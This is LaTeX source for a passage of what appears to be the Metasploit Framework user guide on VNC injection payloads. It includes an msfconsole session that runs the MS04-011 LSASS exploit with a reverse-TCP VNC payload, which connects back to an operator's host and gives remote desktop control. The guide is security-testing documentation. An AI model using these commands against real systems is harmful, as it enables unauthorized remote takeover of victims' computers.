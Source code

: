 \documentclass{report}
\begin{document}
\par
If there is no interactive user logged into the system or the screen has been
locked, the command shell can be used to launch explorer.exe anyways. This can
result in some very confused users when the logon screen also has a Start Menu.
If the interactive desktop is changed, either through someone logging into the
system or locking the screen, the VNC server will disconnect the client. Future
versions may attempt to follow a desktop switch. 

\par
To use the VNC injection payloads, specify the full path to the VNC server as
the value of the \texttt{DLL} option. The VNC server can be found in the data
subdirectory of the Framework installation and is named 'vncdll.dll'. The source
code of the DLL can be found in the external/source/vncdll
subdirectory of the Framework installation. 

\par
There are a few situations where the VNC inject payload
will simply not work. These problems are often cause by strange execution
environments or other issues related to a specific exploit or injection method.
These issues will be addressed as time permits:
\begin{itemize}
	\item The windows/brightstor/universal\_agent exploit will cause the VNC payload to
	crash, possibly due to a strange heap state.
\end{itemize}

\begin{verbatim}
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > set RHOST some.vuln.host
RHOST => some.vuln.host
msf exploit(ms04_011_lsass) > set PAYLOAD windows/vncinject/reverse_tcp
PAYLOAD => windows/vncinject/reverse_tcp
msf exploit(ms04_011_lsass) > set LHOST your.own.ip
LHOST => your.own.ip
msf exploit(ms04_011_lsass) > set LPORT 4321
LPORT => 4321
msf exploit(ms04_011_lsass) > exploit
\end{verbatim}

If the "vncviewer" application is in your path and the AUTOVNC option has been
set (it is by default), the Framework will automatically open the VNC desktop.
If you would like to connect to the desktop manually, \texttt{set AUTOVNC 0}, then use
vncviewer to connect to 127.0.0.1 on port 5900. 

\pagebreak
\chapter{More Information}
\end{document}
